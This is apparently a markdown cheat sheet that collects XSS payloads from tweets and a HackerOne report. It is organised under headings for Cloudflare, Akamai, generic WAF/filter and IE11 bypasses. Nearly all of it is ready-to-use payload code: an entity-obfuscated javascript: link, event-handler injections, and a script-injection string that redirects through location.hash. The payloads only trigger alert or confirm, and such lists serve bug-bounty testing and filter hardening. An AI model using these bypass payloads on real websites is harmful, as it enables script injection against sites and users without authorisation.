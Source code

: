 # XSS Twitter Tips

## Cloudflare XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

[Tweet](https://twitter.com/s0md3v/status/1100734547962998785) By [s0md3v](https://twitter.com/s0md3v)
```html
<a"/onclick=(confirm)()>Click Here!
```

----------------------------------------------------------------------------------------

## Akamai XSS Bypass

[Tweet](https://twitter.com/aisecureme/status/1240354605520678913) By [AISECUREME](https://twitter.com/aisecureme)
```html
“><svg/on</script>laod=alert>
```
------------------------------------------------------------------------------------------

## WAF/filter Bypass
[Tweet](https://twitter.com/si9int/status/1239633166438223874) By [si9int](https://twitter.com/si9int)
![XSS](https://images-ext-1.discordapp.net/external/igR8oewSZci1zKzKoqk0xr9PunkJoDHTmGgLLi6FYfw/https/pbs.twimg.com/media/ETQPvU3WoAMiDBw.png%3Alarge)



## IE Bypass

IE 11 Xss Bypass [h1 report](https://hackerone.com/reports/127259) by [sergeym](https://hackerone.com/sergeym)

```html
"</script><script/%00%00v%00%00>document.location.href=location.hash.slice(1)</script>#javascript:alert(document.domain)
